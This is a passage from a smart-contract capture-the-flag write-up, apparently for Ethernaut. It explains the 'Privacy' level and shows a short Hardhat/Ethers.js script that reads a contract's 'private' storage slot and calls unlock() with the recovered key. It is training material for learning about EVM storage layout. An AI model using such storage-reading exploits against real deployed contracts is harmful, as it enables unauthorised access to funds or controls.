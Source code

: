 Upon deployment and calling `attack()` the challenge is solved.

### Key takeaway

Understand what an interface is... That's it.

## Privacy

### Reference

As already stated in **Vault**, nothing on the blockchain is actually private.
EVM stores data in 256 bit blocks.

Good reference for storage memory layout is provided here: [How to read
Ethereum contract storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)

### Vulnerability

```solidity
contract Privacy {
    bool public locked = true;                             // Slot 0
    uint256 public ID = block.timestamp;                   // Slot 1
    uint8 private flattening = 10;                         // Slot 2 (8/256 bits)
    uint8 private denomination = 255;                      // Slot 2 (16/256 bits)
    uint16 private awkwardness = uint16(block.timestamp);  // Slot 2 (32/256 bits)
    bytes32[3] private data;                               // Slots 3, 4, 5
    ...                                                    // Array starts at 
    ...                                                    // new slot 
    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2])); // data[2] -> last element of data
        ...                                // -> is stored in slot 5
        locked = false;
    }
```

### Solution

> Using Ethers.js and Hardhat Console.  
> `<address>` is the challenge instance address string.

```typescript
const provider = hre.ethers.getDefaultProvider("goerli");
const privacy = await hre.ethers.getContractAt("Privacy", "<address>");
const data = await ethers.provider.getStorageAt(privacy.address, 5);
await privacy.unlock(data.slice(0,34)); // data[2] == first 16 bytes of data
```

Upon making these calls the challenge is solved.

### Key takeaway

Remember about how variables and data structures are laid out in storage.

